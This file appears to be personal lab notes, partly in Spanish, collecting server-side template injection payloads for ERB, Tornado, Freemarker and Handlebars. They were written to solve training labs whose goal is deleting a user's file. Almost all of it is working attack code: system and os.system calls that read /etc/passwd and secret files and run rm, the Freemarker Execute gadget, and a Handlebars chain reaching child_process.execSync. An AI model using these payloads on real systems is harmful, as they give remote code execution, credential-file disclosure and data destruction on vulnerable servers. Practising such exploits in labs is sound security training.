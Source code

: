 #### ERB

```
<%= system('cat /etc/passwd') %>
```

### Payloads LABS  `@JFOZ1010`

```js
//POLYGLOT:
${{<%[%'"}}%\
--
//LAB: SSTI Basic - RCE
//Template Engine: ERB `Ruby` - Testear primero con <%whoami%>
//Purpose: Delete morale.txt /home/carlos/morale.txt
// /?message=<%= system('uname -a') %>
// /?message=<%=%20system('rm%20/home/carlos/morale.txt')%20%>

//LAB: SSTI Basic - Source Code Context  -- user.name
//Template Engine: Tornado `Python`
//Purpose: Delete morale.txt /home/carlos/morale.txt
{% import foobar %} = Error
{% import os %}
{% import os %}
{{os.system('whoami')}}
//PAYLOAD FINAL: Param BODY blog-post-author-display=
- user.name)}}...payload
blog-post-author-display=user.name}}{%25+import+os+%25}{{ os.system('rm%20home/carlos/morale.txt')
- {%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
- {%25import+os+%25}{{os.system('cat%20/home/carlos/secret')

//LAB: SSTI using Documentation
//Template Engine: Freemarker `JAVA`
//Purpose: Con la doc investigar como lograr RCE y delete `morale.txt` /home/carlos/morale.txt
1. ${} = freemarker
2. <#assign ex="freemarker.template.utility.Execute"?new()> 
3. { ex("id") } || { exec("id") }
4. //En la opcion de editar la preview dentro de <p></p>
5. <p>#assign exec = "freemarker.template.utility.Execute"?new()>${ exec("rm /home/carlos/morale.txt")}</p>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")} //o igual de válido este payload. 

//LAB: SSTI Unkown Language - Xploit Documented
//Template Engine: Handlebars
//Purpose: Delete `morale.txt` de /home/carlos/morale.txt
//1. Con ayuda del repo payloads all things, encontramos el payload: 
//2. Que tiramos en el param /?message=PAYLOAD-HERE - Testing:{{7*7}}
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```
